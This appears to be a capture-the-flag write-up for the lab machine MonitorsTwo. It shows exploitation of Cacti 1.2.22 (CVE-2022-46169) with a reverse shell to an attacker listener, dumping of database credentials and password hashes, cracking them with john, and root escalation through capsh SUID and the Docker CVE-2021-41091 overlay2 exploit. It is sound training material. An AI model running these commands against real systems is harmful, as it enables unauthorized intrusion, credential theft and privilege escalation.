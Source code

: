 # easy - MonitorsTwo (machine)

## User Flag

I wanted to write this down in spanish but I'm not that used to switch my keyboard layout between english and spanish in vim, so...
```bash
➤ curl -s http://monitorstwo/ | elinks --dump
   User Login
   Enter your Username and Password below
   Username [1]_____________________
   Password [2]_____________________
   [3][ ] Keep me signed in
   [4][ Login ]
   Version 1.2.22 | (c) 2004-2023 - The Cacti Group
```

So I remember this Cacti monitoring tool. Its getting interesting and nostalgic.

Scanning ports:
```bash
➤ sudo nmap -nv -Pn -sC -sV -O -T4 -oA nmap-scan monitorstwo
[sudo] password for n0kt:
sudo: nmap: command not found
```

Ok, I know I know, its been hard days.

I forgot some parameters purposes:

- -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
- -v: Increase verbosity level (use -vv or more for greater effect)
- -Pn: Treat all hosts as online -- skip host discovery
- -sV: Probe open ports to determine service/version info
- -sC: equivalent to --script=default
- -O: Enable OS detection
- -T4 for faster execution; and then the hostname.

By the way, these ports are open:
```bash
➤ cat nmap-scan.nmap | ag open
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

So we are using cacti v 1.2.22
```bash
➤ curl -s http://monitorstwo | ag version
                <div class='versionInfo'>Version 1.2.22 | (c) 2004-2023 - The Cacti Group</div>
```

A quick googlefu says this CVE-2022-46169 is related. So I've found couple of exploits, one github repo that was recently created (strange, maybe the machine author?) and one from the classic exploit-db:

- https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
- https://www.exploit-db.com/exploits/51166

Both exloits are the same, just written in a different way, both injects a payload on file `remote_agent.php` on parameter `poller_id`.

```bash
# Attacker
➤ python3 51166.py -u http://monitorstwo --LHOST=10.10.14.3 --LPORT=55555


➤ nc -lvnp 55555
Connection from 10.10.11.211:51492
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Looking for something useful:
```bash
# DB Creds!
$ grep -Ri database_ include/config.php
grep -Ri database_ include/config.php
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;


$ mysql --version
mysql --version
mysql  Ver 15.1 Distrib 10.5.15-MariaDB, for debian-linux-gnu (x86_64) using  EditLine wrapper

# Worked!
$ mysql -h db -u root -p -e "show databases;"
<w/html$ mysql -h db -u root -p -e "show databases;"
Enter password: root
Database
information_schema
cacti
mysql
performance_schema
sys

# Got this, now I just need to crack those hases
$ mysql -h db -u root -p -e "use cacti; select username, password, email_address from user_auth;"
< username, password, email_address from user_auth;"
Enter password: root
username        password        email_address
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    admin@monitorstwo.htb
guest   43e9a4ab75570f5b
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    marcus@monitorstwo.htb
```

So I left my friend `john` working, the passwsord it got was not for Cacti but for marcus ssh connection.
```bash
➤ john -w=/usr/share/dict/rockyou.txt hashes.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
...
funkymonkey      (?)

marcus@monitorstwo:~$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
marcus@monitorstwo:~$ ls
user.txt
```

## Root Flag

So marcus doesn't have sudo privs, there is no cronjobs for the user. But I've found something in the system processes:
```bash
marcus@monitorstwo:~$ ps aux | vim -
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         900  0.0  2.1 1455488 85572 ?       Ssl  Jun07   0:04 /usr/sbin/dockerd -H fd://
root         905  0.0  0.0   6816  2928 ?        Ss   Jun07   0:00 /usr/sbin/cron -f
root         909  0.3  0.8 1410928 34616 ?       Ssl  Jun07   0:29 /usr/bin/containerd
root         924  0.0  0.0  51212  1496 ?        Ss   Jun07   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data     925  0.0  0.1  51776  5264 ?        S    Jun07   0:00 nginx: worker process
www-data     926  0.0  0.1  51908  6044 ?        S    Jun07   0:00 nginx: worker process
root        1231  0.0  0.2 1452188 10896 ?       Sl   Jun07   0:00 /usr/bin/containerd-shim-runc-v2 -namespace moby -id e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69 -address /run/containerd/containerd.sock
root        1332  0.0  0.0 1223816 3096 ?        Sl   Jun07   0:00 /usr/sbin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8080 -container-ip 172.19.0.3 -container-port 80
root        1347  0.0  0.2 1527072 10152 ?       Sl   Jun07   0:00 /usr/bin/containerd-shim-runc-v2 -namespace moby -id 50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e -address /run/containerd/containerd.sock
systemd+    1602  0.0  0.3  24576 12164 ?        Ss   Jun07   0:01 /lib/systemd/systemd-resolved
root        1829  0.0  0.7 384860 29316 ?        Ssl  00:22   0:00 /usr/libexec/fwupd/fwupd
root        1834  0.0  0.2 241192  9604 ?        Ssl  00:22   0:00 /usr/lib/upower/upowerd

$ containerd --version
containerd github.com/containerd/containerd 1.4.5~ds1 1.4.5~ds1-2+deb11u1

$ docker -v
Docker version 20.10.5+dfsg1, build 55c4c88
```

Also, notice that nginx process running, wasn't it apache2?
```bash
$ grep -R server_name /etc/nginx/*
/etc/nginx/sites-available/default:     server_name cacti.monitorstwo.htb;
/etc/nginx/sites-enabled/default:       server_name cacti.monitorstwo.htb;
```

I got it, apache2 is running inside a container where Cacti is hosted and via docker-proxy it is being exposed from port 8080 to port 80 via Nginx.

So I've noticed those containerd and docker versions:

- Containerd 1.4.5 has CVE-2021-41103
- Docker 20.10.5 has CVE-2021-41091  (https://docs.docker.com/engine/release-notes/20.10/)

The docker one is interesting, an attacker can manipulate base system files (/var/lib/docker) from within a container via SUID.

So let's connect back to the cacti container using the cacti remote shell vuln we saw before.

```bash
# Search for a SUID bin file
www-data@50bca5e748b0:/var/www/html$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su

www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
chmod u+s /bin/bash
```

And now from marcus ssh connection:
```bash
marcus@monitorstwo:~$ ./exploit.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

And voilá:
```bash
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# ls /root
cacti  root.txt
```
